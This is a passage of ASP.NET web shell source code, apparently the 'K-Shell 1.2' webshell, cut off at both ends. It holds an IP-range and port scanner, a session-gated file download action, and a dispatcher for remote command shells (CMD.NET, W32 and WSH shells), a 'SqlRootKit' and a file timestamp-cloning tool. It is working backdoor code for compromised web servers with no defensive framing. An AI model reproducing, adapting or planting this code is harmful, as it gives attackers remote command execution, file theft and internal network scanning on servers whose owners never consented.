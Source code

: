End If
If IpParts1(1).Equals("255") Then
tmp = Int32.Parse(IpParts1(0)) + 1
IpParts1(0) = tmp.ToString()
IpParts1(1) = "1"

End If
Next
Return IpList
End Function


Protected Sub btnScan_Click(ByVal sender As Object, ByVal e As EventArgs)
If txtStartIP.Text = "" OrElse txtEndIP.Text = "" OrElse txtPorts.Text = "" Then
Response.Write("IP OR Ports Error.Check")
Return
End If
Dim StartIp As String = txtStartIP.Text
Dim EndIp As String = txtEndIP.Text
Dim ips As ArrayList = MakeIps(StartIp, EndIp)
Dim ScanPorts As New ArrayList()
Dim ports As String() = txtPorts.Text.Split(","C)
For Each port As String In ports
'Response.Write(port);
ScanPorts.Add(port)
Next
lstRet.Visible = True
Label1.Visible = True
Dim myscanner As New Scanner()
myscanner.Ips = ips
myscanner.ports = ScanPorts
myscanner.ret = Me.lstRet
myscanner.run()
End Sub

Protected Sub btnReset_Click(ByVal sender As Object, ByVal e As EventArgs)
txtStartIP.Text = ""
txtEndIP.Text = ""
txtPorts.Text = ""
Label1.Visible = False
lstRet.Visible = False
End Sub
'End Scanner
</script>
<%
if request.QueryString("action")="down" and session("kikicoco")=1 then
		downTheFile(request.QueryString("src"))
		response.End()
end if
Dim act as string = request.QueryString("action")
if act="cmd" then 
TITLE="CMD.NET"
elseif act="cmdw32" then 
TITLE="ASP.NET W32 Shell"
elseif act="cmdwsh" then 
TITLE="ASP.NET WSH Shell"
elseif act="sqlrootkit" then 
TITLE="SqlRootKit.NET"
elseif act="clonetime" then 
TITLE="Clone Time"
elseif act="information" then 
TITLE="Web Server Info"
elseif act="goto" then 
TITLE="K-Shell 1.2"
elseif act="pro1" then 